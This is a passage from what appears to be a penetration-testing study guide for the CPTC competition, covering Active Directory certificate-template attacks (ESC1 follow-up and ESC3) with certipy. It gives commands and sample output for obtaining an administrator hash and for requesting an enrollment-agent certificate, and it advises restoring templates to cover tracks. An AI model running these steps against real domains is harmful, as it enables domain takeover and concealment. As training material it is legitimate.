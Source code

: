 
**Step 5: Authenticate**

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10
# Got administrator hash
```

---

**Step 6: (Optional) Restore Template**

```bash
certipy template -u 'user@corp.local' -p 'Password123' \
    -dc-ip 192.168.1.10 \
    -template 'SafeTemplate' \
    -configuration SafeTemplate.json

# Output:
# [*] Restoring template configuration from SafeTemplate.json
# [+] Successfully restored template
```

**Why:**
- Covers your tracks
- Prevents breaking legitimate functionality
- Good OPSEC practice

---

### Step 19: ESC3 Exploitation - Enrollment Agent

**ESC3 = Two-step attack using enrollment agent template**

**Complexity:** Higher (requires two certificates)  
**For CPTC:** Usually skip if ESC1/ESC6 available

---

#### Concept:

```
Step 1: Request "Enrollment Agent" certificate
    ↓
Step 2: Use enrollment agent cert to request cert on behalf of administrator
    ↓
Step 3: Authenticate as administrator
```

---

#### Exploitation:

**Step 1: Request Enrollment Agent Certificate**

```bash
certipy req -u 'user@corp.local' -p 'Password123' \
    -ca 'CORP-DC01-CA' \
    -template 'EnrollmentAgent' \
    -dc-ip 192.168.1.10

# Output: enrollmentagent.pfx
```

---